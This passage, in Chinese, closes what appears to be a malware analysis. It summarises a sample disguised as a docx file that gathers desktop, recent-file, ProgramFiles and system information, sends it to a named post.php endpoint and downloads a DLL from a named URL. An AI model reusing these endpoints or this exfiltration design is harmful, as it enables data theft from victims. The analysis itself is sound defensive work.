

导入该DLL文件之后就没有其他重要操作了，函数会执行删除`tcf.bin`文件，释放DLL文件等清理工作。

## 4. 简单总结

该样本伪装成一个docx文件，会自动收集桌面、最近使用文件、ProgramFiles文件夹下内容以及系统的配置信息，发送到`portable.epizy.com/img/png/post.php`；同时，它会从`portable.epizy.com/img/png/download.php?filename=images01`下载一个DLL文件进行加载。